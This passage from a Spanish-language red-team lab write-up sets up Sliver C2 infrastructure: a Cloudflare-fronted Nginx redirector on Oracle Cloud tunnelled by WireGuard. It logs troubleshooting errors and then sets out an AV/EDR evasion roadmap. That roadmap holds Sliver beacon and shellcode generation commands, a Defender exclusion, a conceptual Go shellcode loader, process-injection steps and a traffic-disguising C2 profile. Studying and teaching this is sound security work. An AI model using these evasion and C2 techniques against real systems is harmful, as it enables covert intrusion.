**Solución:** Usar `VM.Standard.E2.1.Micro` (x86_64, 1 OCPU + 1 GB). Es más limitada pero completamente funcional para WireGuard y Nginx.

**Lección:** Tener un shape de fallback definido antes de empezar. Las instancias ARM son muy atractivas en Oracle Free Tier pero no siempre están disponibles.

---

### Error 2 — VCN duplicada (⏱ 5 min)

**Síntoma:** Al crear las dos VMs en sesiones separadas, Oracle creó dos VCNs `Ouroboros-Net`. Las VMs quedaron en VCNs distintas, incapaces de comunicarse por red interna.

**Diagnóstico:** Si no seleccionas explícitamente "Use existing VCN", OCI crea una nueva VCN por defecto.

**Solución:** Borrar la VCN más reciente sin VMs. En la segunda VM, en el paso de Network: expandir "Show advanced options" → seleccionar "Existing VCN" → `Ouroboros-Net`.

---

### Error 3 — WireGuard sin handshake en Synapse (⏱ 45 min)

**Síntoma:** `ping 10.8.0.1` desde Proxmox → 100% packet loss. `wg show` no mostraba transferred bytes ni last handshake. El puerto UDP 51820 estaba abierto en la Security List de OCI.

**Diagnóstico:** Ubuntu 24.04 minimal en Oracle Cloud tiene **iptables activo bloqueando todo por defecto**, independientemente de la Security List de OCI. Son dos capas de firewall separadas:

```
Security List OCI → iptables del OS → proceso
```

La Security List solo controla el perímetro de red virtual de Oracle. iptables controla el firewall del kernel del propio OS. Ambas deben permitir el tráfico.

**Solución:**

```bash
# Abrir UDP 51820 en iptables del OS
sudo iptables -I INPUT -p udp --dport 51820 -j ACCEPT

# Hacer la regla persistente al reboot
sudo apt install -y iptables-persistent
sudo netfilter-persistent save
```

**Lección:** En Oracle Cloud, **siempre configurar ambas capas**. Nunca asumir que la Security List es suficiente.

---

### Error 4 — HTTP 523 en Cloudflare (⏱ 1 hora)

**Síntoma:** `curl -I https://edgedeliverynodes.app` devuelve HTTP 523 "Origin is unreachable".

**Diagnóstico combinado de dos causas:**

1. iptables en Ivory-Veil bloqueaba puertos TCP 80 y 443 (mismo problema que WireGuard)
2. Nginx solo tenía `listen 443 ssl;` (IPv4) — Cloudflare intentaba conectar por IPv6 y recibía connection refused

**Solución parte 1 — iptables:**

```bash
sudo iptables  -I INPUT -p tcp --dport 443 -j ACCEPT
sudo iptables  -I INPUT -p tcp --dport 80  -j ACCEPT
sudo ip6tables -I INPUT -p tcp --dport 443 -j ACCEPT
sudo ip6tables -I INPUT -p tcp --dport 80  -j ACCEPT
sudo netfilter-persistent save
```

**Solución parte 2 — Nginx dual-stack:**

```nginx
server {
    listen 80;
    listen [::]:80;       # IPv6 — obligatorio para Cloudflare
    ...
}

server {
    listen 443 ssl;
    listen [::]:443 ssl;  # IPv6 — obligatorio para Cloudflare
    ...
}
```

**Lección:** Cloudflare conecta por IPv6 cuando está disponible. Nginx debe escuchar en ambas familias. `listen [::]:443 ssl;` no es opcional en este stack.

---

### Error 5 — HTTP 400 en proxy_pass Nginx→Sliver (⏱ 30 min)

**Síntoma:** `curl https://edgedeliverynodes.app/assets/bundle/app.js` devuelve HTTP 400 con body: "The plain HTTP request was sent to HTTPS port".

**Diagnóstico:** En ese momento tenía un listener HTTPS de Sliver en puerto 8443. Nginx hacía `proxy_pass http://10.9.0.2:8443` — protocolo HTTP al puerto HTTPS de Sliver. Sliver rechazaba la conexión.

**Solución:** Matar el listener HTTPS y crear uno HTTP (WireGuard ya cifra el canal):

```bash
ssh nigredo-marrow
sliver-server
```

```
# Listar jobs activos
[127.0.0.1] sliver > jobs

 ID  Name   Protocol  Port
==== ====== ========= =====
 2   https  tcp       8443

# Matar el job específico
[127.0.0.1] sliver > jobs -k 2

# O matar todos
[127.0.0.1] sliver > jobs -K

# Crear listener HTTP correcto
[127.0.0.1] sliver > http --lhost 10.9.0.2 --lport 8080
```

Y en Nginx, `proxy_pass http://10.9.0.2:8080` (HTTP, no HTTPS).

**Lección:** El protocolo en `proxy_pass` debe coincidir con el protocolo del listener en el C2. Si el canal ya está cifrado por WireGuard, el listener debe ser HTTP.

---

### Error 6 — certbot HTTP challenge falla con Cloudflare proxy (⏱ 20 min)

**Síntoma:** `certbot --nginx -d edgedeliverynodes.app` falla. Let's Encrypt no puede validar `/.well-known/acme-challenge/`.

**Diagnóstico:** Con Cloudflare en modo Proxied (nube naranja), todas las peticiones HTTP pasan primero por los servidores de Cloudflare antes de llegar a Nginx. Let's Encrypt hace el challenge HTTP contra el dominio, Cloudflare intercepta antes de que llegue a Nginx, y devuelve error 523 porque Nginx aún no tiene TLS configurado.

**Solución:** DNS-01 challenge — certbot crea un registro TXT temporal en Cloudflare via API, Let's Encrypt valida ese TXT, nunca necesita HTTP hasta el servidor.

```bash
sudo apt install -y python3-certbot-dns-cloudflare

# Token Cloudflare con permisos solo de DNS Edit sobre la zona
sudo certbot certonly \
  --dns-cloudflare \
  --dns-cloudflare-credentials /etc/letsencrypt/cloudflare/credentials.ini \
  --dns-cloudflare-propagation-seconds 60 \
  -d edgedeliverynodes.app \
  -d cdn.edgedeliverynodes.app \
  --preferred-challenges dns-01
```

Los 60 segundos de propagation son la ventana para que el registro TXT se propague en los nameservers de Cloudflare antes de que Let's Encrypt lo consulte.

---

### Error 7 — Beacon detectado en pre-ejecución por Defender (⏱ era esperado)

**Síntoma:** Windows Defender elimina `beacon.exe` inmediatamente al descomprimir.

**Diagnóstico:** Sliver compilado con defaults produce binarios PE con:
- Metadata Go estándar (paths del compilador)
- Strings internos del framework conocidos por los motores AV
- Estructura de imports PE predecible para herramientas Go

**Solución temporal (lab):**

```powershell
Add-MpPreference -ExclusionPath "C:\Users\adminpro\Desktop"
```

**Solución real (pendiente — ver sección 11):** No ejecutar el beacon directamente. Generar shellcode raw con Sliver y escribir un loader custom que descifre y ejecute el shellcode en memoria, evitando completamente las firmas estáticas del framework.

---

### Error 8 — Beacon ejecuta pero sesión no aparece en Sliver (⏱ 2 horas — el más costoso)

**Síntoma:** El beacon se ejecuta en osseous-limbo, los logs de Nginx muestran peticiones entrantes, pero `sliver > sessions` está vacío. Las peticiones reciben HTTP 302.

**Diagnóstico:** Nginx redirigía correctamente las peticiones que coincidían con el location block, pero el location block original era demasiado específico:

```nginx
# Config inicial — demasiado restrictiva
location ~* ^/cdn/static/ {
    proxy_pass http://10.9.0.2:8080;
}
```

Las URIs reales que genera Sliver son `/assets/bundle/app.js`, `/bundle/assets/data.json`, etc. Ninguna empezaba con `/cdn/static/`. Todo el tráfico del beacon recibía el `302 → microsoft.com` del location raíz.

Para confirmar el diagnóstico, revisar los logs de acceso de Nginx en tiempo real mientras el beacon ejecuta:

```bash
sudo tail -f /var/log/nginx/access.log
```

Output real:
```
172.71.120.58 - - [03/May/2026:XX:XX:XX +0000] "GET /assets/bundle/app.js HTTP/1.1" 302 0 ...
172.71.120.58 - - [03/May/2026:XX:XX:XX +0000] "GET /bundle/assets/data.json HTTP/1.1" 302 0 ...
```

El 302 confirmó que el tráfico del beacon estaba llegando pero siendo redirigido al señuelo.

**Solución:** Actualizar el location block para capturar los patrones reales de Sliver:

```nginx
location ~* ^/(assets|bundle)/ {
    proxy_pass http://10.9.0.2:8080;
    proxy_set_header Host             $host;
    proxy_set_header X-Forwarded-For  $proxy_add_x_forwarded_for;
    proxy_set_header X-Real-IP        $remote_addr;
}
```

```bash
sudo nginx -t && sudo systemctl reload nginx
```

**Lección crítica:** Los patrones de URI del redirector Nginx deben coincidir exactamente con los patrones que genera el framework C2. Verificar siempre los logs de acceso de Nginx mientras el beacon ejecuta para ver qué URIs reales está usando. Los defaults de Sliver pueden cambiar entre versiones.

---

### Error adicional — Disco lleno en nigredo-marrow durante instalación (⏱ 10 min)

**Síntoma:** `apt` falla con "0 B available" en `/dev/sda1` al instalar dependencias de Sliver.

**Diagnóstico:** La VM Debian recién creada tenía el disco sin expandir al tamaño asignado por Proxmox — el sistema de archivos `ext4` no había crecido para ocupar todo el volumen disponible.

**Solución:**

```bash
# Liberar espacio temporal purando docs (genera oxígeno para continuar)
rm -rf /usr/share/doc/* /usr/share/man/*

# Instalar utils de particionado
apt install -y cloud-guest-utils fdisk -y

# Expandir la partición al límite físico del disco
growpart /dev/sda 1
resize2fs /dev/sda1

# Verificar
df -h
```

---

## 9. Flujo completo de un implant


```mermaid
sequenceDiagram
    participant OP as RT-OP-Exegol<br/>(operador WSL)
    participant NM as nigredo-marrow<br/>(Sliver C2)
    participant B  as beacon.exe<br/>(osseous-limbo)
    participant CF as Cloudflare<br/>(relay)
    participant IV as Ivory-Veil<br/>(Nginx redirector)

    OP->>NM: ssh nigredo-marrow → sliver-server<br/>generate --http edgedeliverynodes.app
    NM->>OP: beacon.exe compilado
    OP->>B: Transferencia via GitHub Release privado
    B->>CF: HTTPS GET /assets/bundle/app.js<br/>DNS → IPs Cloudflare
    CF->>IV: HTTPS forward → port 443
    IV->>IV: location ~* ^/(assets|bundle)/<br/>URI match ✓ → proxy_pass
    IV->>NM: HTTP via WireGuard 10.9.0.0/24
    NM-->>IV: C2 response (HTTP)
    IV-->>CF: HTTP proxied → HTTPS
    CF-->>B: HTTPS response
    NM->>OP: Session registrada en Sliver
    OP->>NM: use SESSION → whoami / sysinfo / ps
```

**Lo que ve el Blue Team en ese flujo:**
- Tráfico HTTPS hacia `edgedeliverynodes.app` (parece infraestructura CDN)
- IP de origen: rangos Cloudflare (`172.71.x.x`, `104.21.x.x`) — no la IP real de la víctima
- Certificado válido Let's Encrypt
- User-Agent por defecto de Sliver (punto de mejora — ver sección 11)

---

## 10. Lo que ve el Blue Team vs lo que no ve

| Artefacto | Visible para Blue Team | Oculto por |
|-----------|----------------------|------------|
| IP real de Ivory-Veil | ❌ | Cloudflare proxy |
| IP real de Proxmox/Sliver | ❌ | WireGuard + NAT |
| IP real de osseous-limbo | ❌ | Cloudflare como relay |
| Destino del tráfico C2 | Parcial (`edgedeliverynodes.app`) | Dominio mimetizado |
| Contenido del canal C2 | ❌ | TLS + WireGuard |
| Certificado TLS | ✅ (válido, Let's Encrypt) | — |
| DNS → IPs Cloudflare | ✅ | — |
| User-Agent del beacon | ✅ (default Sliver) | **Pendiente de customizar** |
| URIs del beacon | ✅ (default Sliver) | **Pendiente de customizar** |

Las últimas dos filas son el trabajo pendiente más importante. Sliver con defaults genera URIs y User-Agents reconocibles. Un analista con Zeek/Suricata y firmas de Sliver lo va a detectar en el tráfico aunque no pueda ver el payload.

---

## 11. Próximos pasos: Redirector backup y evasión AV/EDR

### 11.1 Fase 4 — Azure Redirector (backup)

El redirector único en Oracle es un SPOF (Single Point of Failure). Si Oracle baja o bloquea la VM, el engagement muere. La arquitectura completa incluye un segundo redirector en Azure como failover.

**Stack planificado:**

```
1. Crear VM Ubuntu en Azure (créditos estudiantiles)
   Size: B1s (1 vCPU, 1 GB RAM — suficiente)
   Región: diferente a Oracle para resiliencia geográfica

2. Instalar WireGuard + Nginx con la misma config que Ivory-Veil
   - Mismo wg0.conf salvo IPs de endpoints
   - Mismo nginx.conf — mismos location blocks

3. Añadir segundo registro A en Cloudflare
   Type: A | Name: cdn2 | Content: <AZURE_REDIRECTOR_IP> | Proxied ✅

4. Script de failover via Cloudflare API
```

**Script de failover automático (PowerShell/Bash):**

```bash
#!/bin/bash
# health-check.sh — ejecutar periódicamente via cron en nigredo-marrow
# Si Ivory-Veil no responde, activa el redirector Azure via Cloudflare API

CF_TOKEN="<CLOUDFLARE_API_TOKEN>"
ZONE_ID="<ZONE_ID>"
RECORD_ID_PRIMARY="<ID_REGISTRO_A_IVORY>"
RECORD_ID_BACKUP="<ID_REGISTRO_A_AZURE>"

PRIMARY_IP="<IVORY_VEIL_PUB_IP>"
BACKUP_IP="<AZURE_REDIRECTOR_IP>"

# Verificar si el redirector primario responde
if ! ping -c 3 -W 2 $PRIMARY_IP > /dev/null 2>&1; then
    echo "[!] Ivory-Veil no responde — activando Azure backup"
    
    # Apuntar DNS @ al redirector Azure
    curl -s -X PUT \
      "https://api.cloudflare.com/client/v4/zones/$ZONE_ID/dns_records/$RECORD_ID_PRIMARY" \
      -H "Authorization: Bearer $CF_TOKEN" \
      -H "Content-Type: application/json" \
      --data "{\"type\":\"A\",\"name\":\"@\",\"content\":\"$BACKUP_IP\",\"proxied\":true}"
fi
```

### 11.2 Customización del perfil HTTP de Sliver

Los User-Agents y URIs por defecto de Sliver están catalogados. Cambiarlos es el primer paso de evasión de detección basada en firmas de red:

```
# En la consola Sliver — perfil HTTP custom
[127.0.0.1] sliver > profiles new http \
    --name "cdn-profile" \
    --http edgedeliverynodes.app \
    --timeout 60
```

Sliver soporta C2 profiles custom en formato YAML donde puedes definir:
- URIs específicas del beacon
- Headers HTTP (User-Agent, X-Forwarded-For, etc.)
- Rotación de URIs por sesión
- Jitter en intervalos de check-in

```yaml
# c2profile.yaml — perfil imitando tráfico CDN legítimo
http-config:
  user-agent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
  headers:
    - name: "Cache-Control"
      value: "no-cache"
    - name: "X-Forwarded-For"
      value: "{{.RemoteAddress}}"
  urls:
    - "/cdn/v1/static/{{.SessionID}}.js"
    - "/assets/cdn/{{.Random}}/bundle.min.js"
    - "/api/v2/telemetry/{{.SessionID}}"
```

### 11.3 Evasión AV/EDR — Roadmap por niveles

El beacon detectado por Defender en la fase 7 no es un bloqueador real en un engagement: es la señal de que el vector de entrega y el implant necesitan trabajo. El roadmap de evasión, de menor a mayor complejidad:

#### Nivel 1 — Flags de compilación de Sliver

```bash
[127.0.0.1] sliver > generate \
    --http edgedeliverynodes.app \
    --os windows \
    --arch amd64 \
    --format exe \
    --evasion \           # habilita técnicas básicas de evasión
    --skip-symbols \      # elimina símbolos de debug
    --name "svchost"      # nombre del proceso en memoria
```

`--evasion` activa: AMSI bypass, ETW patching y sleep masking básico. No es suficiente contra EDR modernos pero pasa antivirus clásicos.

#### Nivel 2 — Shellcode + Loader custom

El approach más efectivo: Sliver genera shellcode raw, un loader custom en Go/Nim/Rust lo ejecuta.

```bash
# Generar shellcode (no PE, no EXE)
[127.0.0.1] sliver > generate \
    --http edgedeliverynodes.app \
    --os windows \
    --arch amd64 \
    --format shellcode \
    --save /tmp/beacon.bin
```

El loader custom:
1. Lee el shellcode cifrado (AES/XOR/RC4) desde recursos o desde C2
2. Lo descifra en memoria usando una clave derivada del entorno (evita análisis estático)
3. Usa `VirtualAlloc` + `RtlCopyMemory` + `CreateThread` para ejecutar
4. Nunca escribe el shellcode a disco

```go
// Ejemplo conceptual de loader en Go — no producción
package main

import (
    "syscall"
    "unsafe"
)

func main() {
    // shellcode cifrado — la clave se deriva del hostname para evitar análisis en sandbox
    encryptedShellcode := []byte{ /* bytes cifrados */ }
    key := deriveKeyFromEnvironment()
    shellcode := decrypt(encryptedShellcode, key)

    addr, _, _ := virtualAlloc.Call(0,
        uintptr(len(shellcode)),
        0x1000|0x2000,  // MEM_COMMIT | MEM_RESERVE
        0x40,           // PAGE_EXECUTE_READWRITE
    )

    mem := (*[1 << 30]byte)(unsafe.Pointer(addr))[:len(shellcode):len(shellcode)]
    copy(mem, shellcode)

    createThread.Call(0, 0, addr, 0, 0, 0)
    // sleep indefinido para mantener el proceso vivo
    syscall.WaitForSingleObject(syscall.Handle(0xFFFFFFFF), 0xFFFFFFFF)
}
```

#### Nivel 3 — Process Injection

En lugar de ejecutar el beacon como proceso independiente (fácil de detectar por EDR), inyectarlo en un proceso legítimo ya en ejecución:

```go
// Inyección en proceso legítimo — ejemplo conceptual
// 1. Encontrar PID de explorer.exe o svchost.exe
// 2. OpenProcess con PROCESS_ALL_ACCESS
// 3. VirtualAllocEx en el proceso remoto
// 4. WriteProcessMemory con el shellcode
// 5. CreateRemoteThread para ejecutar
```

Las técnicas de process injection están en constante evolución. Heavens Gate, Direct Syscalls, Process Hollowing, Early Bird APC Injection — cada una tiene trade-offs entre compatibilidad y evasión.

#### Nivel 4 — Memory Sealing con One-Time Pad

El approach más avanzado: cifrar el hilo de ejecución en RAM con una clave efímera:

```
1. Shellcode cifrado con OTP (One-Time Pad) en disco
2. Clave derivada de un valor del entorno (nombre de equipo, SID del usuario, hora de boot)
3. Al ejecutar: descifrar OTP en memoria, limpiar la clave inmediatamente
4. El shellcode en RAM nunca existe en forma descifrada en disco
5. Un dump de memoria solo captura el momento post-ejecución, no la carga útil original
```

Este nivel requiere desarrollo de malware real y está fuera del scope de este post — será el tema del siguiente laboratorio.

### 11.4 Mejoras de OPSEC pendientes

```
□ Acceso a nigredo-marrow solo via ProxyJump Synapse (nunca directo)
□ Reglas Nginx adicionales de filtrado por User-Agent (bloquear scanners conocidos)
□ Rotación de dominio periódica (cada 90 días mínimo)
□ Logging centralizado de accesos al redirector → SIEM local
□ Configurar WireGuard en WSL para gestión sin SSH expuesto
□ Añadir CDN record adicional (cdn2) apuntando al redirector Azure
□ Implementar C2 profile HTTP custom (URIs y headers mimetizados)
```

---

## 12. Referencias

- [Red Team Infrastructure Wiki — @bluscreenofjeff](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki) — referencia fundamental para separación de capas
- [Sliver C2 Framework — BishopFox](https://github.com/BishopFox/sliver) — framework C2 open source
- [Oracle Cloud Always Free Resources](https://docs.oracle.com/en-us/iaas/Content/FreeTier/freetier_topic-Always_Free_Resources.htm)
- [Certbot DNS Cloudflare Plugin](https://certbot-dns-cloudflare.readthedocs.io/)
- [Proxmox VE Helper Scripts — community-scripts](https://github.com/community-scripts/ProxmoxVE)
- [WireGuard Protocol](https://www.wireguard.com/protocol/) — Noise Protocol + ChaCha20-Poly1305
- [Cloudflare SSL/TLS encryption modes](https://developers.cloudflare.com/ssl/origin-configuration/ssl-modes/)

---

*Infraestructura desplegada en entorno de laboratorio controlado con fines de investigación y formación en seguridad ofensiva. Todos los sistemas objetivo son propiedad del autor o están bajo autorización explícita.*
